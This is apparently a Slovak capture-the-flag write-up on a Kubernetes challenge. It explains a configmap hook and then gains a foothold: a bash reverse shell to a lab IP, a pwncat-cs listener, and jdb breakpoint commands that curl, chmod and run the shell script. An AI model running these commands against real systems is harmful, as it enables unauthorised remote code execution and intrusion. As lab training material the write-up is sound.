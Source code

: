 ```


if __name__ == "__main__":
    if len(sys.argv)>1 and sys.argv[1] == "--config":
        config()
    else:
        process()
```


vidíme, že je tam hook, ktorý zachytáva eventy kedy sa pridá a vymeže configmaps a na základe toho reaguje.

Keď vo formulári zadáme udaje a potvrdíme, app.py sa postará o to, že vytvorí config mapu, ktorú zachytí tento hooks a v tejto časti

```
		subprocess.run(
            ["kubectl", "apply", "-f", "-"],
            input=UPDATE_TEMPLATE.format(
                name=ctx['object']['metadata']['name'],
                queue_ns=QUEUE_NS,
                storage=storage,
                access_token=access_token,
                quota=pquota,
            ).encode()
        )
```
použije dáta z config mapy a aplikuje na vytvorenie secrets podľa UPDATE_TEMPATE

Bez kubeconfigu, ktorý by nám umožňoval manipulovať z configmapami sa ďalej nepohneme a preto skúsime použiť Hint s artefaktami a zrejme bude niečo viac na jdebug.. Skúsime prejsť súborový systém a pohľadáme, či tam nebude niečo užitočné.. Z predošlej úlohy teda vieme posielať nejaké príkazy, skúsime pre lepšie traverzovanie a obmedzený single instance 5 minútový interval vytvoriť reverse shell.. Tu si pošleme namiesto php súbor, shell.sh súbor s obsahom 

```
#!/bin/bash
bash -i >& /dev/tcp/10.200.0.14/12345 0>&1
```

uložíme ho do /home/kali , kde máme z tohto CWD (cuurent working directory) spustený python http.server

použijeme port 12345 na spojenie

v ďalšom terminal okne si prichystáme pwncat-cs na port 12345

	pwncat-cs -ls 12345

už nám mačička počúva, v jdb zadáme breakpoint ako v úlohe 3 a keď ho hitne, zadáme po jednom tieto tri príkazy, ktoré zakaždým zopakujeme (aj zo zadanim breakpoitu) keď nás kickne.

    print new java.lang.Runtime().exec("curl -o /tmp/shell.sh http://10.200.0.14:8080/shell.sh")
    print new java.lang.Runtime().exec("chmod +x /tmp/shell.sh")
    print new java.lang.Runtime().exec("/bin/bash /tmp/shell.sh")
